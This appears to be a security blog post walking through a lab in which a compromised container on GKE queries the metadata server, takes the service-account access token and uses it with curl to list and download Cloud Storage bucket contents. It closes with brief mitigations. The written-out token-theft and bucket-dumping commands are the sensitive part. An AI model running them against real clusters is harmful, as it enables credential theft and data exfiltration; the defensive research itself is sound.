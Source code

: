 # Your GKE deployment and metadata - buckets

How hard is it to dump data from Google Cloud Project storage, if it's running a vulnerable container image? Very easy! Read on for a walk through.

If you've read Gitlab's excellent report on "Plundering Google Cloud"[[1]](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
you may be wondering, does it apply to Kubernetes and GKE? After all, the article seems to focus on compute engine VMs. GKE is a totally different beast right? Also it mentions early on about being able to read bucket contents from compute engine VM. But we are not just giving the attackers the VM/credentials, not deploying privileged images and keep our GKE deployment up to date.

### Lab setup
To simulate a compromised container I deployed [openSSH-server](https://github.com/linuxserver/docker-openssh-server) on a GKE cluster
and exposed it to the internet so I can access it. I configured a user "toto", with sudo privileges (although I won't be using them yet).
There are no intentional misconfigurations or out of date software[2]*

![lab image](https://eqqn.github.io/images/doc2.png)


### Discovery and metadata
Taking a page from the pentest workflows, we query the metadata server.

`curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H "Metadata-Flavor: Google"`

This gives a lot of information and is a lot to proccess. 

To narrow it down, we want to look at the access scopes available to our instance.

`curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes -H 'Metadata-Flavor:Google' `

![Access scopes](https://eqqn.github.io/images/gke_access_scopes.png)

IF we have devstorage.read permissions it means we can read storage on our project.

Now since our storage is not public ( otherwise we wouldn't be doing this ), we need to authenticate ourselves against the google storage APIs.
Thats where metadata service steps in, providing us a Token that allows us to call google APIs on behalf of the instance. 

`curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" -H "Metadata-Flavor: Google"`

To discover the names of the storage objects, we can query the google storage API with the token we procured. We will need the project name we found in metadata dump.

`curl -H "Authorization: Bearer <<TOKEN>>" "https://storage.googleapis.com/storage/v1/b?project=<<PROJECT_NAME>>"`

![Bucket Data](https://eqqn.github.io/images/bucket_data.png)

One of the objects is the bucket I created `****test`

If we query the object, it will reveal the files inside it :

`curl -H "Authorization: Bearer <<TOKEN>" "https://storage.googleapis.com/storage/v1/b/<<OBJECT_NAME>>/o" `

We see the file "bucketfile.txt", so lets grab it using curl:

`curl -X GET -H "Authorization: Bearer <<TOKEN>>" -o "bucketfile.txt" "https://www.googleapis.com/storage/v1/b/<<OBJECT_NAME>>/o/bucketfile.txt?alt=media"`

![Bucket Contents](https://eqqn.github.io/images/bucket_data_contents.png)  

( the file contents is "my secret bucket data" string) 

### Summary

Provided there is a vulnerable container in a deployment, you can dump all the bucket data in the project.

No container escapes, privilege escalation involved. It does need at least a backdoor, RCE, or SSRF class vulnerability to get the auth token.

Also there is no restrictions on callers origin when calling storage endpoint - with the instance token you can call storage from anywhere.
So you can make a nice script to dump all buckets in the project recursively.

You don't need access to *gcloud*, *gsutil* or other CLI utilities on the container - once you *curl* the token, you can continue the work on your machine.
This is useful when you have read-only filesystems, no write access , etc.

### Mitigations (?)
Partial mitigation exists, like fine-grained access rights on bucket ( are you using them?). You can also restrict the access rights for the 
node pool, by adding a service account to it with a different set of permissions. [[3]](https://cloud.google.com/kubernetes-engine/docs/how-to/protecting-cluster-metadata)

Workload identity is another candidate [[4]](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity) and requires extensive setup.

Google is also beta-testing "Auto-pilot clusters" where they take over the heavy lifting in terms of hardening. 

So the last few mitigations might be a necessary evil, if you don't want to leak all your secrets thanks to a single access token. I have yet to test how well they work.

### References and comments: 

[1] https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/

[2] It's synthetic, but you don't want to deploy actually vulnerable applications on your cloud :) Yes, it's easier to just 
SSH via CLoudShell to the container, but you lose benefit of testing low privilege user and ingress/egress network connections

[3] https://cloud.google.com/kubernetes-engine/docs/how-to/protecting-cluster-metadata

[4] https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity

